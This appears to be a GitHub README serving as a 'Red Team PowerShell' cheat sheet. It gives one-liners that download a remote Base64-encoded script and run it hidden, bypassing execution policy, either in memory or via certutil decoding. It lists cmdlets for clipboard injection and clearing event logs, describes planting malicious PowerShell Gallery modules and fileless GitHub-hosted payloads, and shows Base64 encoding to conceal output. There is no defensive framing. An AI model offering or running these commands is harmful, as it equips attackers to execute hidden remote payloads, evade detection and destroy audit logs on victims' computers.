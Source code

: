 # Red Team PowerShell

## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```

------------------------------

# Living of the Land Cmdlets:

| Cmdlet                  | Description                                                                                          |
|-------------------------|------------------------------------------------------------------------------------------------------|
| Get-StartApps           | Used to retrieve a list of Start menu apps and tiles for the current user on a Windows operating system. |
| Set-Clipboard           | Used to set clipboard content. Essentially clipboard injection.                                       |
| Get-Clipboard           | Retrieve clipboard content.                                                                          |
| Get-LocalUser           | Return all local users on the system.                                                                |
| Get-NetFirewallProfile  | Gets properties for a firewall profile.                                                              |
| Get-NetFirewallRule     | Gets properties for a firewall rule.                                                                 |
| Get-ComputerInfo        | Retrieves all system and operating system properties from the computer                               |
| Get-Service             | Retrieves a list of all services on the computer                                                     |
| Get-EventLog            | Retrieves events and event logs from local and remote computers (only available in Windows PowerShell 5.1) |
| Get-Process             | Retrieves a list of all active processes on a local or remote computer                               |
| Clear-EventLog          | Deletes all of the entries from the specified event logs on the local computer or on remote computers |
| Clear-RecycleBin        | Deletes the content of a computer's recycle bin                                                       |

# Attack Vectors:

### PowerShell Gallery Modules

- Upload PowerShell Gallery module and import it onto targets systems. This method allows widge range use as most Windows computers has PowerShell enabled. This method also exploits trusted Windows applications, making it harder to detect. This method could also potentially assist in elevated privileges. However, when a module is imported from PowerShell Gallery, it touches the hard drive and is typically saved to `"C:\Users\USER\Documents\PowerShell\Modules\"`.

### Fileless PowerShell Script Execution

- You can upload a file to a remote server and fetch the raw contents of the script and save it as a PowerShell variable and then execute that variable. This allows the execution of PowerShell scripts without the script ever touching the hard drive. The script is saved as a variable, which is only stored in memory for that current session. Using GitHub to host the PowerShell script is a common tactic.

### Decode Base64 using PowerShell

- You can decode Base64 directly in PowerShell. Using `Convert.FromBase64String()` you can decode the content from Base64 to binary. You would then use `[Text.Encoding]::UTF8.GetString()` to convert the binary data to a regular string.

For example:

```powershell
# convert base64 string to binary
$binary = [System.Convert]::FromBase64String("aGVsbG8=")

# convert binary data to string
$string = [System.Text.Encoding]::UTF8.GetString($binary)

# print the string
$string

# you can also convert strings to base64
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("Hello"))
```

- You can also decode Base64 using `certutil`. `Certutil` is a command-line utility in Windows operating systems primarily designed for managing certificates. You can decode Base64 by simply running `certutil -f -decode path/to/file`.

# Evasion:

- Just as you can run commands from Base64 in PowerShell, you can also convert command output to Base64 to conceal it.

For example, if you wanted to convert the output of the ipconfig command to Base64:
```powershell
$output = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((ipconfig)))
```
